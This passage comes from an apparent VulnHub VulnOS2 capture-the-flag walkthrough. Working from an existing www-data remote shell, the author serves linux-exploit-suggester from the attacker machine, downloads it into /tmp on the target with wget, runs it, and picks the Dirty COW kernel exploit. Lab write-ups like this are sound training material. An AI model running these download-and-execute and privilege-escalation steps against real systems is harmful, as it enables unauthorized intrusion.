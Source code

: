 There we go, now let’s enumerate.

![16](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/c4ad29df-bf2e-4cd4-897b-ec5ce1d153f2)


We’re on an old version of Ubuntu, let’s see if any exploit is possible for our current version. For that, we’ll use the Linux Exploit Suggester module on GitHub. Let’s download this.

Open a new terminal and 

    git clone https://github.com/The-Z-Labs/linux-exploit-suggester.git

Let’s go inside the dir

    cd linux-exploit-suggester

I’ll move and rename the script file to a folder back

    cp linux-exploit-suggester.sh ../script.sh


This made a copy of the linux-exploit-suggester.sh on my main project folder (one folder back)
Let’s go back a folder 

    cd ..

Now we have to run this script on the target machine so that the script can scan the machine and tell us all about the possible exploits.

To transfer this script from Kali machine to the target machine we’ll start a Python server (in the same directory as the script.sh file) and download the file using wget on the target machine.

![17](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/c4efba11-1a1e-4f82-9f05-0b677fb03ead)


Let’s go back to our remote shell and download the script file.

Since we can’t download or run files anywhere on the target website except the /tmp folder we’ll navigate there and then download the file.

    www-data@VulnOSv2:/tmp$ cd /tmp

To download the file from our kali machine, we’ll

    www-data@VulnOSv2:/tmp$ wget http://192.168.0.190:80/script.sh

![18](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/eeeea31c-3ffb-4ec3-bff9-3641571a59c7)


There we go, now we have the script.sh file on our target server.

Let’s give it execute permissions and we’ll execute it

    www-data@VulnOSv2:/tmp$ chmod +x script.sh
    www-data@VulnOSv2:/tmp$ ./script.sh

We’ll get a lot of possible exploits, we’ll go with the one that has an exposure of “highly probable”

Let’s try the dirtycow 2 exploit

![19](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/527c6dac-c1a7-4a15-80dd-d9646cbfbbaf)
